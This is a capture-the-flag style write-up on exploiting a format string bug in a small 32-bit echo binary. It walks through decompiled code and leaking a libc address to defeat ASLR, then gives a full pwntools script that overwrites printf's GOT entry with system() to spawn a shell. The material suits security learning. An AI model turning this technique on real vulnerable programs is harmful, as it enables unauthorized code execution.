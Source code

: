 ```yaml
---
title: Simple Echo - Format String Vulnerability Exploitation
slug: simple-echo
published: 2022-10-16
author: kako57
description: Exploitation of a format string vulnerability with ASLR enabled
---
```


## About the binary

[Link to binary](/files/simple-echo/simple_echo)

This binary was sent to me by a friend, asking me if it can be exploited.
He told me that the vulnerability doesn't seem to be a buffer overflow,
and that he didn't find any other ways to attack it.

---

## Initial Exploration

Let's see what kind of binary we're working on.

```
$ file simple_echo
simple_echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=208d64568158fab20eff47c6bc1351e3557076d0, not stripped
$ pwn checksec simple_echo
[*] '/path/to/simple_echo'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

It's nice to see that the binary is dynamically linked and is not stripped.
This helps taking less time on reversing the binary (hopefully)
and have more time figuring out the exploit.

## Reversing the binary

The `main` function simply calls a function named `cat` after a setvbuf

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  cat();
  return 0;
}
```

And `cat` goes in a loop, where it reads stdin, stores to buffer, then prints out the buffer for every read using a `printf`.

```c
ssize_t cat()
{
  ssize_t result; // eax
  char format[256]; // [esp+Ch] [ebp-10Ch] BYREF
  ssize_t v2; // [esp+10Ch] [ebp-Ch]

  v2 = 0;
  while ( 1 )
  {
    result = read(0, format, 0xFFu);
    v2 = result;
    if ( result <= 0 )
      break;
    format[v2] = 0;
    printf(format);
  }
  return result;
}
```

And for `printf`, it's a jump to an address that is to be provided after loading libc.
This is because the implementation for printf is loaded dynamically.

```asm
  jmp     *0x804A010
```

## Strategy

We know how we can use printf to peek the values on the stack, and to write stuff.

Now with these techniques in mind, we want to have some strategy
when writing our exploit.

Fundamental Goal: have power on where we can write with `%n` and be able to compute how many characters to print.

Ultimate Goal: Overwrite address of printf in got so it goes to system instead, making the program
an interactive shell, basically.

1. We can use the **buffer** used by read. That's actually plenty of space! We will write the addresses we will overwrite there, and we will put the format string payload there as well.
2. We need to find where the buffer is on the stack. Recall accessing nth argument of printf.
3. Enter the addresses for the half-byte overwrites
4. Compute the number of chars to print for one half of the 4 bytes then overwrite.
5. Compute the number of chars to print for the other half of the 4 bytes then overwrite.
6. Any lines to be entered from here on should be passed to system() instead of printf()

### Defeating Address Space Layout Randomization (ASLR)

Modern computers use address space layout randomization (ASLR) for loading dynamically
linked libraries. Because libc is one such library, the loaded addresses
for the libc functions we see during debugging actually don't necessarily show up
when we run the binary without debugging. They get randomized!
How can we defeat ASLR to have a consistent exploit?

We still have a good amount of control over the program with the format string vulnerability.
In fact, our control is so strong we can still determine where in the memory
a libc function is during runtime.
We can look up the offset of that libc function in the libc file being loaded,
and figure out the libc base address after being loaded dynamically, leaking the whole of libc
overall, as we can map all the other libc functions during runtime.

To have a consistent exploit, we leak the libc base address using the
format string vulnerability before we proceed to overwriting addresses.

## Exploit code

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./simple_echo")
p = binary.process()

# ====== LEAK =======

libc_start_main_reloc = 0x0804a014 # where pointer to libc_start_main is stored

# libc function offsets (this varies depending on the system's libc; find it yourself)
libc_start_main_offset = 0x0001f170 # for leaking libc address
system_offset = 0x00049680          # our target value

exploit = b""
exploit += p32(libc_start_main_reloc)
exploit += b"%7$4s"

log.info("leaking libc address")
log.info("Leak payload: %s" % repr(exploit))

p.sendline(exploit)
p.recv(4) # we don't need this (this is just an echo of libc_start_main_reloc)
leak = u32(p.recv(4)) # get the next four-byte chunk (this is the leaked address)
p.recvline() # the rest is junk to us
libc_base = leak - libc_start_main_offset

log.info("libc is leaked! base address: %s" % hex(libc_base))

# ====== OVERWRITE =======

printf_reloc = 0x0804A010 # this is where we will overwrite

# we can now figure out where system() will be
system = libc_base + system_offset

# for overwriting lower two bytes
lower_half_adjustment = ((system & 0xffff) - 8)

exploit = b""
exploit += p32(printf_reloc)
exploit += p32(printf_reloc + 2)
exploit += b"%7$" + b"%dx" % lower_half_adjustment
exploit += b"%7$hn"

# for overwriting upper two bytes
upper_half_adjustment = (system >> 16) - lower_half_adjustment - 8

exploit += b"%8$" + b"%dx" % upper_half_adjustment
exploit += b"%8$hn"

log.info("overwrite payload: %s", repr(exploit))

p.sendline(exploit)
p.recvline()
log.info("overwrite payload sent. getting shell now weeeeee.")
log.info("note: Ctrl+C or Ctrl+D to close")

p.interactive()
```
